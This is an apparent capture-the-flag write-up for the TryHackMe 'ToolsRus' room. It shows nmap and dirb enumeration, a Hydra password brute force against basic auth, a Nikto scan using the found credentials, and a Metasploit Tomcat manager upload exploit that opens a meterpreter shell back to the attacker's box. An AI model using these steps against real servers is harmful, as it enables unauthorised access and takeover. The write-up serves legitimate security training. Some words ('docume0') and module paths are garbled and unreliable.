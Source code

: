 # THM: ToolsRus

| Stat       | Value                                        |
| ---------- | -------------------------------------------- |
| Room       | ToolsRus                         |
| URL        | https://tryhackme.com/room/toolsrus     |
| Difficulty | Easy                                         |

## Concepts/Tools Used

- [Dirb](../../tools/dirb.md)
- [Hydra](../../tools/hydra.md)
- [Nmap](../../tools/nmap.md)
- [Nikto](../../tools/nikto.md)
- [Metasploit](../../tools/msfconsole.md)

## Room Description

Your challenge is to use the tools listed below to enumerate a server, gathering information along the way that will eventually lead to you taking over the machine.

This room will introduce you to the following tools: 

- Dirbuster
- Hydra
- Nmap
- Nikto
- Metasploit

## Process

This room presents a series of questions that needs to be answered using different tools. Once the machine starts up I save the machine's ip address to my host file so that I can type `target.thm` instead of an ip address.

## What directory can you find, that begins with a "g"?

First of all, I run a couple of nmap commands to find out what ports are open and what software is listening on those ports. I run the following command:

`nmap -p- -Pn -T5 -v target.thm`

Then I run to following based on what ports were discovered in the previous command:

`nmap -A -Pn -v target.thm -p 22,80,1234,8009`

Port 80 has the http service running on it. It has Apache 2.4.18 running. So now I know what port we need to run `dirb` on. I run the following command to answer the question:

`dirb http://target.thm /usr/share/wordlists/dirb/common.txt`

The output mentions a directory that starts with a "g". Here is the output:

```bash
---- Entering directory: http://target.thm/gxxxxxxxx/ ----
+ http://target.thm/gxxxxxxxx/index.html (CODE:200|SIZE:51)
```

## Whose name can you find from this directory?

I opened up the browser and went to the following url:

`http://target.thm/gxxxxxxxx/`

The rendered page has a name on it. The text on the page reads:

`Hey xxx, did you update that TomCat server?`

## What directory has basic authentication?

Since I am looking for a directory that has basic authentication, I went back to my dirbuster output and noticed which directory returned a 401 error. The output from dirbuster was:

```bash
+ http://target.thm/index.html (CODE:200|SIZE:168)
+ http://target.thm/pxxxxxxxx (CODE:401|SIZE:457)
+ http://target.thm/server-status (CODE:403|SIZE:298)
```

I pulled up the middle result in a browser and sure enough it wanted basic authentication.

## What is bob's password to the protected part of the website?

I have a username, and now I need to try and brute force a password for the user bob. I have documentation on how to [break basic authentication using hydra](../../tools/hydra.md#http-get). I copy that guide and run the following command:

`hydra -l bob -P /usr/share/wordlists/rockyou.txt http-get://target.thm/protected/`

I waited a moment and got the following output:

```bash
[DATA] attacking http-get://target.thm:80/protected/
[80][http-get] host: target.thm   login: bob   password: xxxxxxx
1 of 1 target successfully completed, 1 valid password found
```

Logging in with those credentials, I get a message that this page has move to another port.

## What other port that serves a webs service is open on the machine?

I went back to the output of the 2nd nmap command that I ran above. The output from nmap tells me which port is the one:

```bash
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 cd:d9:c0:87:11:dc:40:53:4e:b9:ce:54:bb:cf:26:52 (RSA)
|   256 e1:18:eb:5d:ae:b8:c3:a1:e5:0b:73:6b:21:dd:18:29 (ECDSA)
|_  256 7e:b2:13:a5:ad:05:32:88:1a:22:e6:27:f1:50:16:b4 (ED25519)
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: POST OPTIONS GET HEAD
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
1234/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-favicon: Apache Tomcat
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache-Coyote/1.1
|_http-title: xxxxx xxxxxx/x.x.xx
8009/tcp open  ajp13   Apache Jserv (Protocol v1.3)
|_ajp-methods: Failed to get a valid response for the OPTION request
```

I see that port 1234 is running an http server.

## What is the name and version of the software running on the port from question 5?

The last line of output for port 1234 tells the name and version of the software running on port 1234.

## Use Nikto with the credentials you have found and scan the /manager/html directory on the port found above. How many docume0?

When I go to the url that it is asking for (http://target.thm:1234/manager/html), it wants me to put in a username and password. I try the combination that I found earlier and I am able to login. You can see the answer to this question on the manager page or you can enter the following command and wait for nikto to finish:

`nikto -h http://target.thm:1234/manager/html -id bob:bubbles`

There are 5 docume0. Here is the list:

- /docs
- /examples
- /host-manager
- /lF7Fhb
- /manager

## What is the server version?

This one was a tricky problem for me. The nmap output for port 1234 says Apache Tomcat/Coyote  JSP engine 1.1. This is not the answer that we are looking for. Instead, I noticed the output on port 80. That version number is what the exercise is looking for. Here is the line from the output that I am talking about:

```bash
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
```

## What version of Apache-Coyote is this service using?

As I just mentioned, the version number is 1.1.

## Use Metasploit to exploit the service and get a shell on the system. What user did you get a shell as?

I run `msfconsole` to bring up Metasploit. I use the search feature to find a vulnerability. Here is the what I search for:

`search tomcat`

In the output I only looked for modules that had an excellent rating and mentioned the manager. That leaves me with 2 options:

`exploit/multi/http/tomcat_mgr_deploy`

and

`exploit/mult/http/tomcate_mgr_upload`

In this case I tried the latter. I took a look at the options that this module needs by running `show options`. I needed to change a few options for I ran the following commands:

```bash
set httppassword xxxxxxx
set httpusername xxx
set rhosts target.thm
set rport 1234
set lhost my_attack_box_ip_address
```

Once I had those options set I ran the `run` command. My prompt changed to `meterpreter > ` to indicate that I was on the machine. From here I ran the `getuid` command to find out who I was running as so I could answer the question.

## What flag is found in the root directory?

I ran the following command to get the flag:

`cat /root/flag.txt`

